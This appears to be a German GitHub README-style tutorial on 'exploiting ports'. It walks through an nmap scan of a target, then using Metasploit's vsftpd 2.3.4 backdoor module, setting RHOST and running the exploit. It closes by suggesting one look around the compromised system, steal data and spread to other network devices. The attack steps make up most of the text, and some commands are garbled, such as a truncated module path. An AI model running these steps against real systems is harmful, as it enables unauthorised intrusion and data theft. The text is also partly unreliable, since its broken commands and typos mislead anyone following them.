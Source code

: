 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt u zu sehen welched Portsoffen sind.

``sudo nmap -p- -sV -O {IP-Adresse des Ziels}``
  
 <h2>Port 21:</h2>

service postgresql start <br> service postgresql status 
  
Danach wird ein passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": msfconsole
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
  search vsftpd 2.3.4
  So sieht es aus wenn ein Exploit existiert
 <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png" alt="PStatus Serie" width="600" height="250">

loit/unix/ftp/vsftpd_234_backdoor
use exploit loit/unix/ftp/vsftpd_234_backdoor
  
show options

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png" alt="PStatus Serie" width="600" height="250">

Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
set RHOST {IP-Adresse des Ziels}
  
 Danach kontrolieren mit: show options
  
 Danah kann an einfah den Comand "exploit" absetzen
 
   <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png" alt="PStatus Serie" width="600" height="250">
  
Da man nun imSystem ist kann man mit Befehlen wie WHOAMI oder $HOME sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif aus Andere Geräte im Netzwerk erweitern. 

